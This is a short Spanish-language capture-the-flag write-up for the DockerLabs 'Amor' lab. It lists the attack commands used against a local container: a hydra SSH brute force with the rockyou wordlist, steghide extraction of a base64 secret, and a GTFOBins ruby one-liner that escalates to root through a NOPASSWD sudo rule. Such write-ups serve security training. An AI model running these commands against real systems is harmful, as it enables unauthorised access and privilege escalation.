

repository: scarlgyx/scarlgyx-cybersecurity · page: writeups/dockerlabs/amor/index.html · generator: mkdocs

# Amor

Al entrar en la web se puede ver un texto donde se habla de usuarios (juan y carlota)
`hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`
**babygirl** --> entramos por ssh

## Escalada

en el Desktop de carlota hay una imagen que descargaremos con *`scp` (secure copy)*
**`scp user@host:/ruta/remota/archivo /ruta/local/`**

`scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/qarlg/Labs/Dockerlabs/amor/`

`steghide extract -sf imagen.jpg` -> *anot los datos extrados e/"secret.txt".* -> se descarga el archivo *secret.txt*
ZXNsYWNhc2FkZXBpbnlwb24= -> está en base64
`❯ echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d`
**eslacasadepinypon%**

`sudo -l`
*(ALL) NOPASSWD: /usr/bin/ruby*
*gtfobins* para escalar
`sudo ruby -e 'exec "/bin/sh"'`
root
